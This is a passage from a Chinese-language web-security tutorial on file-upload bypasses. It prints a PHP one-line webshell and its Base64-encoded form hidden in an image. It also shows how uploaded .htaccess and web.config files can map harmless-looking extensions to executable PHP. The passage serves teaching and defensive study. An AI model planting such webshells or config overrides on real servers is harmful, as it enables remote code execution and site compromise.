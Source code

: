 

构造一句话木马

```
<?php @eval($_POST['cmd']);?>
```



对一句话木马进行Base64编码，将编码后的内容写入图片文件 `1.jpg` 并上传。

```
PD9waHAgQGV2YWwoJF9QT1NUWydjbWQnXSk7Pz4=
```

由于 `.htaccess` 配置，服务器会自动对 `1.jpg` 进行 Base64 解码并作为 PHP 代码执行，从而绕过字符串扫描防护，实现恶意代码执行。



## 服务端



### 覆盖配置文件

正如我们在前文讨论的，服务器通常不会执行未经配置的文件。例如，在Apache服务器执行客户端请求的PHP文件之前，开发人员可能需要在 **/etc/apache2/apache2.conf** 配置文件中添加如下指令：

```
LoadModule php_module /usr/lib/apache2/modules/libphp.so
AddType application/x-httpd-php .php
```



许多服务器还允许开发者在特定目录中创建特殊配置文件，用以覆盖全局设置或进行补充配置。以Apache服务器为例，当目录中存在名为.htaccess的文件时，服务器会自动加载该文件中的目录专属配置。



开发人员可以通过 **web.config** 文件在IIS服务器上实现目录级配置。这类配置可能包含如下指令（以下示例展示了允许向用户提供JSON文件的服务配置）：

```
<staticContent>
    <mimeMap fileExtension=".json" mimeType="application/json" />
</staticContent>
```



当存在 **.htaccess** 和 **web.config** 这类配置文件时，Web 服务器会使用它们进行配置，但通常情况下 HTTP 请求并不能直接访问这些配置文件。

不过在实践中，我们偶尔会发现某些服务器未能有效阻止，用户上传自定义的恶意配置文件，覆盖服务器原有的配置文件。

此时，即使所需文件扩展名已被列入黑名单，攻击者仍可通过欺骗服务器，将任意自定义文件扩展名，映射到可执行的 MIME 类型来实现攻击目的。

```
<staticContent>
    <!-- web.config 将任意文件扩展名关联到可执行类型 -->
    <mimeMap fileExtension=".hacker" mimeType="application/x-httpd-php" />
</staticContent>
```



#### .htaccess
